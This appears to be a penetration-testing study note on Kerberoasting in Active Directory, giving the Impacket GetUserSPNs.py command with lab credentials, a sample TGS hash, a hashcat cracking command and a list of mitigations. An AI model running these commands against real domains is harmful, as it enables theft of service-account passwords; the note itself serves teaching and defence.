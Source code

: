 A **Kerberoasting** attack targets service accounts in a Windows Active Directory (AD) environment. These service accounts typically have low-level privileges but may have weak passwords, making them prime targets for attackers.

In Kerberoasting, an attacker requests service tickets for service accounts and then attempts to crack the tickets offline to retrieve the service account's plaintext password.

#### 1. **Getting Service Principal Names (SPNs)**

SPNs are unique identifiers for services in a Kerberos environment. By retrieving these, we can potentially identify accounts associated with services that can be targeted for Kerberos-related attacks. The following command uses `GetUserSPNs.py` to request a Kerberos ticket for a user in the domain:

`GetUserSPNs.py quigley.local/j.smith:Password1 -dc-ip 192.168.163.5 -request`

- `quigley.local/j.smith:Password1`: User credentials.
- `-dc-ip 192.168.163.5`: IP address of the domain controller.
- `-request`: Requests a Kerberos ticket.

**Result:** The output shows a Kerberos ticket for a service (in this case, `SQLService`), along with the associated hash.
#### 2. **Extracting the Kerberos Hash**

The Kerberos hash can be extracted from the output generated by the previous step. The hash format looks like this:
`quigley.local/SQLService*$$krb5tgs$23$*SQLService$QUIGLEY.LOCAL$quigley.local/SQLService*$f451c109d2100f87ae431ec3aa173ee7$eb0fea2d1d13f40e8fdda153b9461acd2360e942fe1e463e6644154b2df5af0705ea28a7399606277cbcc67de4f8713f55b4cab3a37b54d52f153374addefc7ae739240d3d2400550973a6491ac9c35eeddb854dfe7e6b20f5cd19d5f55f584d5c7a3036972990371e7553100fffe64794aa2db6277b537329d7710b378b63c8f3c9c47d4b56f7e63ab7d5a0a88996a6716f33cd37142d304d17ddd3eaf2b85ef6912900cb6d546de81f840a00e8b2925c14613659713dc6a8a471a202c53ecaa8f0a69d64a5652a0661ba6e9213ef3795598518e529c0400b941e82efd75f97b02a9e92ef9a381d86ac9c5c6b29bbedc6011f74d1dcf`

This is the Kerberos Ticket Granting Service (TGS) hash, which can then be cracked using a password-cracking tool.
#### 3. **Cracking the Kerberos Hash Using Hashcat**

The Kerberos hash is stored in a text file (e.g., `krb.txt`). To crack the hash, you use `hashcat` with the correct hash mode (13100 for Kerberos 5 TGS). The following command attempts to crack the hash using the `rockyou.txt` wordlist:

`hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`

**Result:** If successful, `hashcat` will output the cracked password, revealing sensitive information.

![](../../Images/Pasted%20image%2020250221230529.png)

#### 4. **Mitigation Strategies**

- **Strong Service Account Passwords**: Ensure service accounts have long, complex passwords to prevent easy cracking.
- **Managed Service Accounts (MSAs)**: Use Managed Service Accounts, which automatically manage and rotate service account passwords.
- **Least Privilege**: Minimize the privileges of service accounts. They should only have access to the specific resources they need.
- **SPN Monitoring**: Regularly audit SPNs and service accounts for any suspicious activity.
- **Kerberos Ticket Lifetimes**: Reduce the lifetime of Kerberos tickets to limit the window for cracking.